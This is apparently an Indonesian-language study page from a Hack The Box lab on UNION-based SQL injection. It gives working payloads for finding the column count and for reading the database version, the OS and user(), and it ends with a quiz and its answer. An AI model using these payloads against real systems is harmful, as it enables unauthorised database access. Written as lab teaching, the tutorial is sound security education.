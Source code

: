 Dalam menggunakans alah satu time in-bind injecion ini, kita harus memastikan letak dari nilai select ditempatkan dimana. Kita bisa mencoba menggunakan query singakat untuk mengetahuinya.

!!! quote "POC"
    === "Sent payload"
        ```sql
        a' UNION SELECT 1,2,3 -- -
        ```

        ![initial payload](aset/5.1.Union-injection-payload.png)

Opps, ternyata ada perbedaan antara jumlah kolom yang di select antara dua statement select. kita bisa mencoba jumlah select hingga menampilkan hasil injeksi query.

!!! quote "POC"
    === "Sent payload"
        ```sql
        a' UNION SELECT 1,2,3,4 -- -
        ```

        ![initial payload](aset/5.2.Union-injection-payload.png)

Kita juga dapat menggunakan global variabel pada kolom select untuk mengetahui informasi tertentu melalui global variable yang ditanam pada Uninon injection.


!!! quote "POC"
    === "Sent payload"
        ```sql
        a' UNION SELECT 1,@@version,@@version_compile_os ,4 -- -
        ```

        ![initial payload](aset/5.3.Union-injection-global-variabel.png)



## Quiz
!!! quote "question"
     Use a Union injection to get the result of 'user()' 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"

        ```sql
        a' UNION SELECT 1,2,user(),4 -- -
        ```

        ![initial payload](aset/5.4.quiz.png)

        Jawabannya, **root@localhost**